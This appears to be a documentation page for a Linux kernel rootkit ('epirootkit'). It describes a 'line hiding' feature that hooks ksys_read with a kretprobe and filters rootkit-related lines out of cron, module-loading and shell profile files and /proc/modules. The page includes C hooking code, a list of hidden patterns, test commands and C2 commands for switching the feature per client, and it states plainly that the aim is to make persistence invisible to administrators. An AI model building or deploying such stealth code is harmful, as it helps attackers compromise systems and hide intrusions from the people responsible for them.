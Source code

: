 ```yaml
---
title: "Line Hiding"
description: "Hide rootkit lines from file contents using syscall interception"
icon: "edit"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 516
---
```


# Line Hiding

Hide lines containing rootkit patterns from file contents by intercepting read syscalls and filtering output in real-time.

## How It Works

1. **Hook `ksys_read`** using kretprobe
2. **Check file path** from file descriptor  
3. **Filter target files** line-by-line
4. **Remove pattern matches** and adjust return size

## Implementation

```c
line_hiding_state.read_probe = (struct kretprobe) {
    .kp.symbol_name = "ksys_read",
    .handler = read_ret_handler,
    .entry_handler = read_entry_handler,
    .maxactive = 50
};

static int read_ret_handler(struct kretprobe_instance *ri, struct pt_regs *regs)
{
    if (should_filter_file(ctx->filepath)) {
        copy_from_user(kernel_buffer, ctx->user_buffer, ret_value);
        filtered_size = filter_file_lines(kernel_buffer, ret_value);
        copy_to_user(ctx->user_buffer, kernel_buffer, filtered_size);
        regs_set_return_value(regs, filtered_size);
    }
}
```

## Target Configuration

### Directories
- `/etc/cron.d/` - Cron job definitions
- `/etc/modules-load.d/` - Module loading configs
- `/etc/profile.d/` - Shell profile scripts  
- `/proc/modules` - Loaded kernel modules

### Hidden Patterns
```c
static const char * const hide_line_patterns[] = {
    "epirootkit",
    "jules_est_bo_",
    "EpiRootkit", 
    "modprobe epirootkit",
    "insmod epirootkit"
};
```

## Testing

### Test File
```bash
# Use provided test file
sudo cp test_line_hiding_epirootkit.txt /etc/cron.d/test_epirootkit

# View filtered content
cat /etc/cron.d/test_epirootkit
```

**Result**: 24 lines → ~9 lines (rootkit patterns filtered automatically)

### Example Output
```bash
# Normal lines visible
* * * * * root /usr/bin/legitimate_cron_job.sh
0 2 * * * root /usr/bin/backup_script.sh
15 3 * * 0 root /usr/bin/weekly_cleanup.sh

# Lines with 'epirootkit' patterns are hidden

30 1 * * * root /usr/bin/system_update.sh
45 23 * * * root /usr/bin/cleanup_logs.sh
```

## Usage

### WebUI Control
**[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)** provides line hiding toggle with real-time status.

### C2 Commands
```bash
# Toggle line hiding
enable-line-hiding Client-1
disable-line-hiding Client-1

# Check status
status Client-1
```

## Security Impact

Makes rootkit persistence invisible to administrators reading system configuration files, effectively hiding:
- Cron job installations
- Module loading configurations
- Shell profile modifications
- Kernel module presence
